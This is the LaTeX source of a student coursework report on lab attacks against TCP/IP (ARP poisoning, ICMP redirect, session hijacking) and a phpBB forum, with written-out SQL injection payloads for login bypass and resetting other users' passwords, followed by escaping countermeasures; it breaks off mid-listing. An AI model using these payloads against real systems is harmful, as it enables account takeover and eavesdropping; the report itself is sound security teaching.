\documentclass[12pt, a4paper, pdflatex]{article}

\usepackage[top=1in, bottom=1in, left=1in, right=1in]{geometry}
\newcommand{\HRule}{\rule{\linewidth}{0.5mm}}
\usepackage{lipsum}
\usepackage[labelfont=bf]{caption}
\usepackage[]{algorithm2e}
\usepackage{listings}

\renewcommand{\thesubsubsection}{\thesubsection.\alph{subsubsection})} %subsubsections with letters

\usepackage{amsmath}
\usepackage{amsfonts}    % fancy maths font
\usepackage{mathrsfs}    % fancy maths font
\usepackage{dsfont}      % indocator finction
\usepackage{hyperref}
\usepackage[page, toc]{appendix}
\usepackage[usenames,dvipsnames]{color}
\usepackage{graphicx}

% \newcommand{\ts}{\textsuperscript}
% \usepackage{url}

\begin{document}
% \pagenumbering{gobble}% Remove page numbers

\begin{center}
\vspace*{\fill}
% \begin{vplace}[1]
  \Huge
 \texttt{\textbf{PART B}}
 % \end{vplace}

\end{center}


\begin{center}
    \begin{large}
    {\HRule \\[0.2cm]}
    \textsc{Attacks on TCP/IP Protocols}
    {\HRule \\[0.3cm]}
    \end{large}

    \begin{minipage}{ 0.49\textwidth }
        \begin{flushleft}
            Kacper \textbf{Sokol}---\texttt{ks1591}---4GGK1\\
            Maciej \textbf{Kumorek}---\texttt{mk0934}---4G403\\
        \end{flushleft}
    \end{minipage}
    \begin{minipage}{ 0.49\textwidth }
        \begin{flushright}
            {COMSM1500 $|$ Systems Security\\
            Coursework: Part B---\today\\[0.3cm]}
        \end{flushright}
    \end{minipage}
\end{center}
\vspace*{\fill}

\thispagestyle{empty}
\newpage
\setcounter{page}{1}

\section{Introduction}
In this paper we present how to exploit vulnerabilities such as: altering packets in \texttt{TCP/IP} protocol, \texttt{XSS}---Cross-site scripting, and \texttt{SQL} injections.\\
In each subtask we explain the cause of a vulnerability and show how to perform a potential attack with detailed description of the results and proof in form of a screen-shoot. Methods used to exploit these weaknesses are described in depth; algorithms, code, input, and output are included for clarity. We finally reflect on potential risks and whenever possible advise counter measures.\\
\textbf{Table~\ref{tab:SoC}} shows contribution to this study per author.

\begin{center}
  \begin{table}[h]
    \begin{tabular}{ l | p{8.5cm} | c }
      Group member ID & Contribution outline & Contribution \\
      \hline
      ks1591 &
      \begin{itemize}
        \item setting up lab environment on personal computer,
        \item creating report template,
        \item background reading,
        \item joint work on each of the assignment with roughly equal contribution.
      \end{itemize}
      & 50\% \\
      mk0934 &
      \begin{itemize}
        \item setting up lab environment on personal computer,
        \item setting up git repository for coursework files,
        \item background reading,
        \item joint work on each of the assignment with roughly equal contribution.
      \end{itemize}
      & 50\% \\
    \end{tabular}
    \caption{Statement of contribution.\label{tab:SoC}}
  \end{table}
\end{center}

\newpage

\section{TCP attacks}

\subsection{ARP cache poisoning}\label{arp}

Our victim MAC address was "08:00:27:A6:EB:87" while its IP address was 10.0.2.4. The gate-away is set at the address 10.0.2.1 

We wanted to make the victim think that another gateway has the MAC of the attacker. The original MAC of the gateway was "52:54:00:12:35:00", while attacker MAC address was "08:00:27:ee:0d:0f". We could see that by running arp -a command.\\


\includegraphics[width=.95\textwidth]{gfx/arp1}\\


Using netwox we could spoof a packet that updates ARP cache on the victim's machine and replace the entry with the MAC of the attacker at IP address 10.0.2.6:\\


\includegraphics[width=.95\textwidth]{gfx/arp-attack}\\

Here we used netwox tool using the script we created that is shown in the appendix ~\ref{script1} for spoofing ARP packages, we tell the tool the original MAC and new MAC addresses, as well as IP addresses of the victim and the IP address of which entry in the ARP cache we want to modify.

After spoofing the packet, running arp -a tool on the victim's machine results in the following output:\\


\includegraphics[width=.95\textwidth]{gfx/arp-after-attack}

As we can see, the attacker managed to "convince" the victim that his hardware address corresponds to a 3rd party IP address. Now we can observe packets send from the victim to the observer being received by the attacker in the Wireshark output:\\


\includegraphics[width=.95\textwidth]{gfx/arp-shark}


\subsection{ICMP Redirect Attack}

ICMP messages are used to send error or redirection information in the IP protocol. The redirect message tells the network to use alternative routing. An attacker can spoof a ICMP redirect request in order to perform for example eavesdropping by driving the network traffic through the attacker's machine.

In this attack we want to listen to packet exchange between a victim and a third party (observer). We want to be able to send ICMP redirect packet spoofed in such a way that we convince everyone in the network that the attacker is the new gateway.

In order for the attack to succeed, we need to repeat the ARP attack (see section ~\ref{arp}).

Again using our script shown in the appendix~\ref{script1} we use \textbf{netwox} to spoof the ICMP message.\\


\includegraphics[width=.95\textwidth]{gfx/imcp-ping}\\

Now the entire network should believe that the attacker is the new gate-away. If we try to ping the victim (at the address 10.0.2.4) on the observer machine (at the address 10.0.2.5), we see that the communication works:\\


\includegraphics[width=.95\textwidth]{gfx/imcp-netwox}\\

However, the attack can now watch the communication and data being sent using \textbf{Wireshark}.\\


\includegraphics[width=.95\textwidth]{gfx/imcp-shark}\\

Such a setup can for example lead to captuing sensitive data that is unencrypted or lead to recognizing known ciphertext-plaintext pairs that can be used for various attacks on encryption algorithms.




\subsection{SYN Flooding Attack}

In this attack our task was to cause a Denial of Service using SYN flood attack. The SYN or synchronize request is send in a typical TCP protocol exchange in order to establish a connection. A client sends a SYN packet, receiving SYN-ACK acknowledgment from the server and confirms that the synchronization acknowledgment was recived by responding to the server with a ACK packet.

In the attack, an attacker sends multiple SYN packets without responding to SYN-ACK. This is done by randomizing the IP address in the original SYN request, so that the response goes to nobody as a consequence. This causes the server to keep many \'half-open\'' connections.

\subsection{Hijacking TCP session}


\includegraphics[width=.95\textwidth]{gfx/request.png}\\

\includegraphics[width=.95\textwidth]{gfx/response.png}

\begin{verbatim}
Command 40 --ip4-dontfrag --ip4-offsetfrag 0 --ip4-ttl 64 --... :
IP______________________________________________________________.
|version|  ihl  |      tos      |            totlen             |
|___4___|___5___|____0x00=0_____|___________0x002D=45___________|
|              id               |r|D|M|       offsetfrag        |
|_________0x5731=22321__________|0|1|0|________0x0000=0_________|
|      ttl      |   protocol    |           checksum            |
|____0x40=64____|____0x06=6_____|____________0xCB91_____________|
|                            source                             |
|___________________________10.0.2.5____________________________|
|                          destination                          |
|___________________________10.0.2.4____________________________|
TCP_____________________________________________________________.
|          source port          |       destination port        |
|_________0xC860=51296__________|___________0x0017=23___________|
|                            seqnum                             |
|_____________________0x360868E2=906520802______________________|
|                            acknum                             |
|_____________________0x37E27287=937587335______________________|
| doff  |r|r|r|r|C|E|U|A|P|R|S|F|            window             |
|___5___|0|0|0|0|0|0|0|1|1|0|0|0|__________0x1B00=6912__________|
|           checksum            |            urgptr             |
|_________0x966E=38510__________|___________0x0000=0____________|
70 77 64 0d  00                                     # pwd..
__END_OF_PROGRAM__
\end{verbatim}

\section{XSS attacks}

\subsection{Writing an XSS Worm}

After refreshing multiple times, the response contains an error message "You cannot make another post so soon after your last; please try again in a short while." which is a mechanism in phpBB from preventing flooding message boards.


\section{SQL injection attack}

\subsection{Exploiting the vulnerability in login.php}

We were able to login to Alice's account without knowing her password by inputing the following
text into login input box: \texttt{alice' or '1'='1}.\\

\includegraphics[width=.95\textwidth]{gfx/sql/login.png}\\ On the server side when this is applied
to PHP code to form the SQL query, the query is changed into:

\lstset{
  captionpos=b,
  frame=single,
  language=SQL,
  breaklines=true,
  label=sql1
}
\begin{lstlisting}
SELECT user_id, username, user_password, user_active, user_level,
user_login_tries, user_last_login_try
FROM USERS_TABLE
WHERE username = ’alice’ OR 1' = ’1’ AND user_password = ’md5($password)’;
\end{lstlisting}

This query successfully creates a new session for a user without the knowledge about the password.

We tried injecting an update query too by inputing into the query
\texttt{bob'; UPDATE phpbb\_users SET user\_password = 'foo' WHERE username ='bob' OR 1='1} 
that was to change user `bob''s password to `foo'.  

However, because MySQL prevents query stacking when using \texttt{mysql\_query} method, we saw the following error:


\includegraphics[width=.95\textwidth]{gfx/sql/updateerr.png}

\subsection{Updating user profile}

Our aim is to change Bob's password using known account of Alice. Bob's user ID is 4 which easy to check as it shows for example in the URL for sending private messages on the forum. We put the following code into the user signature of user Alice:
\texttt{Chaningbob' WHERE user\_id=4 \#}

We also provide old Alice's password and new password, that will be assigned to Bob. This way we break the following query:
\lstset{
	captionpos=b,
	frame=single,
	language=PHP,
	breaklines=true,
	label=sql1
}
\begin{lstlisting}
$sql = "UPDATE " . USERS_TABLE . "
SET " . $username_sql . $passwd_sql . "user_email = '" . $email ."', user_icq = '" . str_replace("\'", "''", $icq) . "', user_website = '" . str_replace("\'", "''", $website) . "', user_occ = '" . str_replace("\'", "''", $occupation) . "', user_from = '" . str_replace("\'", "''", $location) . "', user_interests = '" . str_replace("\'", "''", $interests) . "', user_sig = '" . str_replace("\'", "''", $signature) . "', user_sig_bbcode_uid = '$signature_bbcode_uid', user_viewemail = $viewemail, user_aim = '" . str_replace("\'", "''", str_replace(' ', '+', $aim)) . "', user_yim = '" . str_replace("\'", "''", $yim) . "', user_msnm = '" . str_replace("\'", "''", $msn) . "', user_attachsig = $attachsig, user_allowsmile = $allowsmilies, user_allowhtml = $allowhtml, user_allowbbcode = $allowbbcode, user_allow_viewonline = $allowviewonline, user_notify = $notifyreply, user_notify_pm = $notifypm, user_popup_pm = $popup_pm, user_timezone = $user_timezone, user_dateformat = '" . str_replace("\'", "''", $user_dateformat) . "', user_lang = '" . $user_lang . "', user_style = $user_style, user_active = $user_active, user_actkey = '" . str_replace("\'", "''", $user_actkey) . "'" . $avatar_sql . " WHERE user_id = $user_id";
\end{lstlisting}
Now we can see that Alice's signature changes, but not her password:\\

\includegraphics[width=.95\textwidth]{gfx/sql/changed_bob.png}\\
As well as we can log in to Bob account using the password we provided in the previous form:\\

\includegraphics[width=.95\textwidth]{gfx/sql/chainging_alice.png}\\

We can also show that we can modify a password without knowing any user's password. We can get access to a user account using first attack. Then we can inject SQL statement in the signature with a new password that is an md5 hash of our choice:\\
For Ted's password: \texttt{', user\_password = \"1a1dc91c907325c69271ddf0c944bc72a WHERE userid = 6 \# '}\\
And that way we can take control on every account and by-pass mechanism in PhpBB that prevents changing the password without providing the old one first.

Another interesting finding is that if we create malformed SQL statement, we can debug it since a debug mode is turned on on the server. This allows us to see details of the SQL query without having access to the code. In real production servers debug messages should never be printed for that reason.\\

\includegraphics[width=.95\textwidth]{gfx/sql/debug.png}

\subsection{Countermeasures}

\subsubsection{Magic quotes}

To test our first test counter measure, we turn back on the "magic quotes gpc" option PHP. Thanks to this option PHP escapes with backslashes special characters such as single quote for GPC operations what stands for Get/Post/Cookie operations\cite{phpman}.

Now, our first attack fails, because we cannot inject single quote any more in order to change the SQL query. This results in not being able to log in.
Also, we printed the resulting query to the Apache error log file and we could see that indeed the single quotes were escaped and didn't break the query the way we wanted.\
\lstset{
	captionpos=b,
	frame=single,
	language=SQL,
	breaklines=true,
	label=sql1
}
\begin{lstlisting}
 SELECT user_id, username, user_password, user_active, user_level, user_login_tries, user_last_login_try\n\t\t\tFROM phpbb_users\n\t\t\tWHERE username = 'alice\\' or \\'1\\'=\\'1'
\end{lstlisting}\
While with magic quotes turned off, the query can be modified:
\lstset{
	captionpos=b,
	frame=single,
	language=SQL,
	breaklines=true,
	label=sql2
}
\begin{lstlisting}
SELECT user_id, username, user_password, user_active, user_level, user_login_tries, user_last_login_try\n\t\t\tFROM phpbb_users\n\t\t\tWHERE username = 'alice' or '1'='1'
\end{lstlisting}\
However, escaping quotes with a backslash may not be a good countermeasure, which we will explain in the next part.

\subsubsection{Using \texttt{addslashes()}}

For this task we show an alternative method of escaping strings. GPC cookies are turned off by default in PHP 5.3 and were removed completely in PHP 5.4. Mainly because of the overhead of checking every string and that not every request contains a query or script string. Now it is required to `sanitize' strings by a developer in code explicitly. One way of doing it is to call
\texttt{addslashes} in PHP which does exactly the same to the strings as magic cookies - escapes quotes, double quotes, backslashes and null characters.

We can enable it in our phpBB forum code and we indeed see in the logs that our attacks fail:

The query string for logging in looks exactly the same as in case of GPC cookies, what makes injecting SQL to have no effect:

\lstset{
	captionpos=b,
	frame=single,
	language=SQL,
	breaklines=true,
	label=sqladdslash
}
\begin{lstlisting}
SELECT user_id, username, user_password, user_active, user_level, user_login_tries, user_last_login_try\n\t\t\tFROM phpbb_users\n\t\t\tWHERE username = 'alice\\' or \\'1\\'=\\'1'
\end{lstlisting}

However, using  \texttt{addslashes()} or gpc cookies is not a good way of preventing the injection of malicious code. For example, it can be shown that if a special binary string is prepared and send using the query and \texttt{addslashes()} might not handle correctly Unicode strings. An example of such an attack was demonstrated here\cite{shiflett06}.

\subsubsection{Using \texttt{mysql\_real\_escape\_string}}

Another way of forming secure queries with user input is to escape variables that we get from outside world on the server-side by calling \texttt{mysql\_real\_escape\_string} method from MySQL API in PHP.

This code below demonstrates how to prevent the attack on \texttt{SELECT} statement in login.php file:

\lstset{
	captionpos=b,
	frame=single,
	language=PHP,
	breaklines=true,
	label=sqladdslash
}
\begin{lstlisting}
$sql = "SELECT user_id, username, user_password, user_active, user_level, user_login_tries, user_last_login_try
FROM " . USERS_TABLE . "
WHERE username = '" . mysql_real_escape_string($username) . "'";
\end{lstlisting}
Again, we can see in the log file that query is escaped correctly:
\lstset{
	captionpos=b,
	frame=single,
	language=SQL,
	breaklines=true,
	label=sqladdslash
}
\begin{lstlisting}
